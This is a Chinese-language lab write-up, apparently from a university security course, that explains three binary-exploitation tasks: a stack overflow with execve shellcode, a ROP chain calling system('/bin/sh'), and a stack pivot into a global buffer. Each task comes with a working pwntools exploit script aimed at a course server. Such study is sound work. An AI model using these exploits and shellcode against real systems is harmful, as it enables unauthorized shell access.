




# 栈上缓冲区溢出

​	程序中构造了payload并传输给原程序，使用100个'A'填充了原程序中的buffer数组，8个'b'覆盖了原rbp，然后填入篡改后的return address以及shellcode。

​	通过计算可得shellcode在系统栈中的地址为id_addr+0x100+0x10 (0x100为buffer数组，0x10为rbp和return address)，因此将return_address篡改为计算出的shellcode地址，使程序通过跳出函数时执行shellcode，完成攻击。

```python
from pwn import *

context.log_level = 'DEBUG'

p = remote('8.154.20.109', 10100)  
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
p.recvuntil(b'address: ')
id_addr = int(p.recvuntil('\n'), 16)
print('[*] id_addr = ' + hex(id_addr)) 
rt_addr=id_addr+0x100+0x10


shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
payload =b"A"*0x100 + b"B"*8 + p64(rt_addr) + shellcode
p.sendline(payload)
p.interactive()
```




# ROP

## Rop2

​	原程序提供了system函数，但是执行的是"/bin/ls"，同时原程序也提供了"/bin/sh"字段，可以通过截获system函数和"/bin/sh"的地址，构造ROP链进行攻击。

​	首先需要0x58个字节进行填充（0x4填充len，0x40填充buffer，0xC补全至16的倍数，0x8覆盖原rbp），然后填入rdi=gstr_addr（指向"/bin/sh"）的指令，用于传输system函数的参数。由于system函数执行时要求16字节对齐，因此需填入一个直接跳转指令，即ret指令。最后填入system函数的地址，完成攻击。

```python
from pwn import *

context.log_level = 'DEBUG' # set debug logging
context.arch = 'amd64'

p = remote('8.154.20.109',10101)
binary = ELF("./rop2")
rop = ROP(binary)

system_addr = binary.symbols['system']
gstr_addr = binary.symbols['gstr']

payload = b"A"*0x58
rop(rdi = gstr_addr)   # gadgets that will make rdi to expected value
rop.raw(rop.find_gadget(['ret'])[0])
rop.raw(system_addr)       # gadgets that will return to target function
payload += rop.chain()
payload = payload + b"B" * (128 - len(payload)) # padding

p.recvuntil(b"ID:\n")
p.sendline(b'----------')//学号
p.recvuntil(b"[*] Please input the length of data:\n")
p.sendline(b"128")
p.recvuntil(b"[*] Please input the data:\n")
p.send(payload)

p.interactive()
```




## Rop3

​	原程序中限制了buffer数组的长度，无法通过简单的rop进行攻击。注意到原程序中还有一个gbuffer可使用，因此需要在buffer溢出时实现栈迁移，将rbp，rsp迁移到gbuffer中，在gbuffer中继续构造rop链，实现攻击。



​	首先使用ROPgadget获取leave_ret，pot_ret，ret指令的地址。利用得到的地址开始构造ROP链。	

​	程序中构造了两个payload，分别用于填充gbuffer和buffer。其中payload2用于填充buffer，由0x40个填充字节，指向gbuffer的假rbp以及leave_ret指令组成；payload1用于填充gbuffer，由"/bin/sh"字段，pop_rdi指令，gbuffer地址（由于gbuffer的最小地址处被填充为"/bin/sh"，该地址指向"/bin/sh"参数），ret指令以及system函数地址组成。

​	在程序运行时，首先在func函数运行结束时，系统将会执行leave_ret指令，此时rbp的值被修改为gbuffer的地址，由于此时的ret_address被改为了leave_ret指令地址，程序将再次执行leave_ret指令，将rsp的值修改为gbuffer的地址，完成栈迁移。在gbuffer栈中先运行pop_ret指令，将"\bin\sh"写入rdi，然后使用ret指令填充至16位对齐，最后执行system函数，完成攻击。

```python
from pwn import *

context.log_level = 'DEBUG' # set debug logging
context.arch = 'amd64'

p = remote('8.154.20.109',10102)
binary = ELF("./rop3")
rop = ROP(binary)

gbuffer_addr=binary.symbols['gbuffer']
leave_addr=0x400700
popret_addr=0x400823
ret_addr=0x400586

p.recvuntil(b"ID:\n")
p.sendline(b'----------')//学号
p.recvuntil("address: ")
sys_addr=p.recvline().decode().strip()

payload1=b"/bin/sh\x00"
payload1+=p64(popret_addr)
payload1+=p64(gbuffer_addr)
payload1+=p64(ret_addr)
payload1+=p64(int(sys_addr,16))

p.send(payload1)

p.recvuntil("> ")
payload2=b"A"*0x40+p64(gbuffer_addr)+p64(leave_addr)
p.sendline(payload2)

p.interactive()
```


